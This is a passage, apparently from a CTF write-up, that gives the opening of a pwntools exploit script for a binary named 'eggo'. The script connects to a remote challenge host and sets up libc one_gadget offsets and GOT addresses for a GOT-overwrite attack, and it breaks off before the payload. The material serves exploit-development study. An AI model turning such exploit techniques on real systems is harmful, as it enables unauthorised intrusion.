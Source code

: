 \href{https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf}{Pwntools cheat sheet}\\
\noindent
\href{https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/Heap_overflow.md}{Heap overflow writeup}

\subsection{Script}
{\small
\begin{verbatim}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 46.101.107.117 --port 2208 ./eggo
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./eggo')
libc = ELF('./libc-2.33.so')

# gadgets from running one_gadget ./libc-2.33.so
gadgets = [0xcb5ca, 0xcb5cd, 0xcb5d0]

host = args.HOST or '46.101.107.117'
port = int(args.PORT or 2208)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
 
def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
io = start()

# use a negative egg to re-direct strlen to printf by writing to the GOT
address_of_printf_got = 0x400730  # at 0x400730 the value is 0x404048 
address_of_strlen_got = 0x4006e8
address_of_malloc_got = 0x400760


\end{verbatim}}
